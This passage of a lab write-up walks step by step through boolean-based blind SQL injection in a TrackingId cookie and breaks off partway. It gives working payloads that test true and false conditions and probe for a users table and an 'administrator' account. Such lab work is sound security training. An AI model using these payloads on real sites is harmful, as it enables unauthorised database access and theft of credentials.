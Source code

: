 ✅ Confirm that the **"Welcome back"** message appears.

### 3️⃣ **Test a False Condition**

Change it to:

```sql
TrackingId=xyz' AND '1'='2
```

![2025-05-20_23-12_1.png](LabImg/2025-05-20_23-12_1.png)

❌ Confirm that the **"Welcome back"** message does **not** appear.

### 4️⃣ **Check for Users Table**

Test with:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a 
```

✅ Confirms the existence of a `users` table.

### 5️⃣ **Confirm Administrator User Exists**

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a 
```
